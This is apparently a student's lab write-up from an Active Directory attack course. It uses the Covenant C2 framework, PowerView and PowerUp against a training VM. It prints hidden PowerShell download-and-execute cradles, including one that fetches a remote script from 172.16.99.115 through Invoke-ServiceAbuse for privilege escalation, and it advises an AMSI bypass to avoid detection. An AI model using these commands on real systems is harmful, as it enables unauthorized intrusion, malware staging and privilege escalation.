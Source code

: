 In this write up i will skip all the part that are unnecessary because this is the second run for me

Configure Covenant and download the Grunt on the student vm
```powershell
powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/pslauncher.ps1')"
```

Before running any command on the new Grunts we need to run the built-in task BypassAmsi always to avoid .NET AMSI Triggers.

### **Learning Objetive 1**
Use the built-in task of PowerView *PowerShellImport* to import PowerView.ps1

Once you done this you can go on the interact tab to launch the powerview command
```powerview
PowerShell Get-DomainUser
```
![[Pasted image 20231116172507.png]]


### **Learning Objetive 5 - exploit to student admin**
Import powerup.ps1
and run the following command
```powerup
PowerShell Get-ServiceUnquoted
```
![[Pasted image 20231116173021.png]]
and
```powerup
PowerShell Get-ModifiableService
```
![[Pasted image 20231116173115.png]]
exploit it by installing a new grunt as local admin
```powerup
PowerShell Invoke-ServiceAbuse -Name 'AbyssWebServer' -Command 'cmd.exe /c powershell.exe -Command "IEX (iwr "http://172.16.99.115/bruno.ps1" -UseBasicParsing)"'
```
![[Pasted image 20231116173400.png]]


Now look for derivate local admin by importing the Find-PSRemotingLocalAdminAccess.ps1 powerShell script and launch it
```interact
PowerShell Find-PSRemotingLocalAdminAccess
```
